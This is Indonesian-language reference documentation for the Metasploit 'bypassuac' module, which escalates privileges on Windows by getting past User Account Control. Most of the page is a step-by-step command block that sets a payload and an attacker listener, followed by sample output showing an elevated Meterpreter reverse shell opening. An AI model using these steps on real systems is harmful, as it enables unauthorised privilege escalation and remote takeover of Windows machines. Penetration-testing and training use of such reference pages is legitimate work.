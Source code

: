 # bypassuac

Modul ini akan melewati perlindungan `UAC` (`User Account Control`) di Windows dengan memanfaatkan sertifikat trusted publisher melalui teknik injeksi proses (`process injection`). Modul ini akan menjalankan shell kedua yang memiliki bendera `UAC` dimatikan, artinya shell tersebut berjalan dengan hak akses yang lebih tinggi (tanpa dibatasi oleh `UAC`).

## Penulis
- David Kennedy "ReL1K" kennedyd013@gmail.com
- mitnick
- mubix mubix@hak5.org

## Platform
- `Windows`

## Cara Penggunaan di Metasploit

```
use exploit/windows/local/bypassuac
set PAYLOAD <PAYLOAD>
set SESSION <ID>
set TECHNIQUE EXE
set LHOST <IP_ATTACKER>
set LPORT <PORT_LISTENER>
set TARGET <ID>
set VERBOSE true
run
```

Hasil output-nya seperti ini:

```
[*] Started reverse TCP handler on 192.168.1.11:4444 
[*] UAC is Enabled, checking level...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Checking admin status...
[+] Part of Administrators group! Continuing...
[*] Uploaded the agent to the filesystem....
[*] Uploading the bypass UAC executable to the filesystem...
[*] Meterpreter stager executable 73802 bytes long being uploaded..
[*] Sending stage (177734 bytes) to 192.168.1.53
[*] Meterpreter session 7 opened (192.168.1.11:4444 -> 192.168.1.53:49166) at 2025-05-17 05:10:35 +0700

meterpreter >
```

## Referensi
- [Rapid7](https://www.rapid7.com/db/modules/exploit/windows/local/bypassuac/)
